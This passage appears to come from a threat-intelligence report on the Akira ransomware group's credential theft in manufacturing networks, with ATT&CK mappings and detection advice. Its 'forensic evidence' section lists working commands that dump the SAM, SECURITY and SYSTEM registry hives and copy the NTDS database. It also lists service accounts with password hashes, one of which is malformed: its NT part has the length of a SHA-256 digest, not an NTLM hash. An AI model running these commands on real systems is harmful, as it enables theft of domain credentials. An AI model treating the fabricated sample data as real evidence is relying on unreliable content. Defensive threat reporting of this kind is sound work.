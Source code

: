 **Manufacturing Asset Discovery Control**  
Deploy industrial network access control preventing unauthorized enumeration of manufacturing operational technology assets from corporate network segments.

#### Detection

**Manufacturing Network Scanning Detection**  
Monitor for network scanning activities targeting manufacturing-specific protocols (Modbus, EtherNet/IP, IEC 61850) and production system discovery attempts.

**Source: ATT&CK data component Network Traffic for technique T1018**

### 3.3. Credential Access and Service Account Harvesting

| **Timestamp** | Day 2, 09:15 |
|---|---|
| **Techniques** | T1003.002 Security Account Manager to achieve TA0006 Credential Access<br>T1003.003 NTDS to achieve TA0006 Credential Access |
| **Target tech** | Manufacturing Active Directory, SCADA Service Accounts |

Akira escalated privileges through systematic harvesting of service account credentials used for manufacturing system authentication. The threat actors specifically targeted manufacturing service accounts with elevated access to production systems, SCADA networks, and engineering workstations critical to industrial operations.

Analysis of credential harvesting activities reveals sophisticated techniques for extracting authentication material from Windows Active Directory environments while avoiding detection by security monitoring systems deployed in manufacturing networks. The focus on manufacturing service accounts demonstrates advanced understanding of industrial authentication architectures.

**Forensic Evidence - Manufacturing Credential Extraction:**
```powershell
# Akira manufacturing credential harvesting techniques observed
# Target manufacturing service accounts specifically
net user /domain | findstr /i "mfg prod scada eng quality mes"

# Extract manufacturing-focused credential material
reg save HKLM\SAM C:\Windows\Temp\mfg_sam.hive
reg save HKLM\SECURITY C:\Windows\Temp\mfg_security.hive
reg save HKLM\SYSTEM C:\Windows\Temp\mfg_system.hive

# Manufacturing-specific NTDS extraction
ntdsutil "ac i ntds" "ifm" "create full C:\Temp\mfg_ntds" q q
```

**Active Directory Manufacturing Account Targeting:**
```
Compromised Manufacturing Service Accounts:
Account: MFG_DOMAIN\scada_service
SID: S-1-5-21-2846719309-3129472037-1938002995-1108
Password Hash: aad3b435b51404eeaad3b435b51404ee:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918
Group Memberships:
- Domain Users
- Manufacturing Operators
- SCADA Administrators
- Production System Access

Account: MFG_DOMAIN\eng_service_01
SID: S-1-5-21-2846719309-3129472037-1938002995-1109
Password Hash: aad3b435b51404eeaad3b435b51404ee:7c2dcfc45a5e4e9a3a5f8b8c2e7d4f9a
Group Memberships:
- Engineering Users
- CAD System Access
- Quality Control Operators
```
